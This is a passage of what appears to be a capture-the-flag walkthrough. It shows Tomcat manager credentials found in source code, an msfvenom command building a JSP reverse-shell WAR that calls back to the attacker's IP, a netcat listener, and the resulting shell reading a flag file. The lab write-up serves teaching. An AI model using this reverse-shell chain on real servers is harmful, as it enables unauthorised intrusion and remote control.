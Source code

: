 username="tomcatadm" password="T0mc@t_s3cret_p@ss!"

<img width="1053" height="580" alt="image" src="https://github.com/user-attachments/assets/063317a6-4c46-40a5-ac7d-7016d51b2563" />

<img width="1887" height="554" alt="image" src="https://github.com/user-attachments/assets/bc54e66b-ec26-40cc-8bfe-cae35f0d0166" />

Set up a listener on machine:

```
$  nc -nvlp 8888
```
and 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.43 LPORT=8888 -f war -o managerUpdated.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
Saved as: managerUpdated.war

```

<img width="1148" height="373" alt="image" src="https://github.com/user-attachments/assets/566d3c69-beec-49fa-b491-1fc5b1e9e824" />

<img width="1222" height="493" alt="image" src="https://github.com/user-attachments/assets/7aa31045-5870-48a7-86f9-314605b2a03c" />

<img width="1104" height="402" alt="image" src="https://github.com/user-attachments/assets/f01513cc-0589-42de-977d-4d77b2fb35b3" />

<img width="1916" height="599" alt="image" src="https://github.com/user-attachments/assets/ea61fbbe-8500-42de-9939-389ca9698ec1" />

<img width="1867" height="755" alt="image" src="https://github.com/user-attachments/assets/6c338677-d08a-43b9-b0e2-604a5aee44ab" />

```
$  nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.43] from (UNKNOWN) [10.129.147.252] 54386
whoami
tomcat
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

```
ls
conf
flag4.txt
lib
logs
policy
webapps
work
cat flag4.txt	
LLPE{imXXXXXXXXXXXXXX0w}
```
